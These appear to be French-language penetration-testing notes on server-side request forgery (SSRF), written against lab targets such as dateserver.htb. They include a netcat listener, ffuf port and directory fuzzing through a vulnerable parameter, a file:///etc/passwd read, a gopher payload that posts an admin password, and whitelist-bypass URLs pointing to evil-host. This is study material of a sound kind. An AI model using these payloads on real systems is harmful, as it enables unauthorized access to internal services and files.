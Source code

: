 

- **http:// et https://** : Ces schémas d'URL permettent de récupérer du contenu via des requêtes HTTP/S. Un attaquant pourrait l'utiliser dans l'exploitation des vulnérabilités SSRF pour contourner les WAFs, accéder à des points d'extrémité restreints, ou accéder à des points d'extrémité dans le réseau interne

- **file://** : Ce schéma d'URL permet de lire un fichier à partir du système de fichiers local. Un attaquant pourrait l'utiliser dans l'exploitation de vulnérabilités SSRF pour lire des fichiers locaux sur le serveur web (LFI)

-  **gopher://** : Ce protocole peut envoyer des octets arbitraires à l'adresse spécifiée. Un attaquant pourrait l'utiliser dans l'exploitation de vulnérabilités SSRF pour envoyer des requêtes HTTP POST avec des charges utiles arbitraires ou communiquer avec d'autres services tels que des serveurs SMTP ou des bases de données.


# Identifier une SSRF

> [!TIP]
> Identifier une requête POST qui pointe vers une URL 


## Confirmer la SSRF

Lancer listener

```bash
nc -lnvp 8000
```

changer l'URL en mettant l'adresse de mon server /ssrf

Vérifier si le listener reçoit une requête

### Déterminer si la réponse nous reflète la SSRF en spécifiant une ressource existante sur le serveur en question

http://127.0.0.1/index.php


## Enumérer le système

### Scanner les ports ouverts sur le serveur

Créer une wordlist pour les ports 1 à 65535

```bash
seq 1 65535 > ports.txt
```

Fuzzing des ports avec ffuf

```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```


# Exploiter la SSRF

### Trouver des endpoint supplémentaires

Fuzzing des repertoires avec ffuf

```shell
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

### LFI

```bash
file:///etc/passwd
```

### Gopher

```bash
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Utiliser Gopherus pour générer des payloads gopher

# BLIND SSRF

> [!TIP]
> Si le listener reçoit bien une requête mais que la réponse du server web ne retourne pas la réponse attendue alors il s'agit d'une blind SSRF

Dans ce cas il est possible d'identifier si la ressource requêtée existe bien ou non en fonction de la réponse obtenue


# BYPASS de whitelist

- `https://expected-host:fakepassword@evil-host`
- `https://evil-host#expected-host`
- `https://expected-host.evil-host`

[[OPEN REDIRECT]]